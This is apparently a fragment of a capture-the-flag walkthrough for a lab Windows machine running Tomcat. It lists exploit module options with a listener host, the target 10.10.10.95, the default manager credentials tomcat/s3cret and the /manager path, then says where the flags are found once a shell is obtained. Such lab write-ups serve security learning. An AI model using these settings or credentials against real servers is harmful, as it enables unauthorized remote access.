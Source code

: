 ### I set the (TARGETS) on Windows , and for options i use :
- set lhost <YOUR $IP>
- set rhost 10.10.10.95
- set HttpUsername tomcat
- set HttpPassword s3cret
- set TARGETURI /manager
- set RPORT 8080

# After we get shell we can find users and root flag in :
```
C:\Users\Administrator\Desktop\flags
```
```
cat "2 for the price of 1.txt"
```

<img width="450" height="108" alt="image" src="https://github.com/user-attachments/assets/d345ad54-1c27-49a3-8ca8-8875734a4a78" />









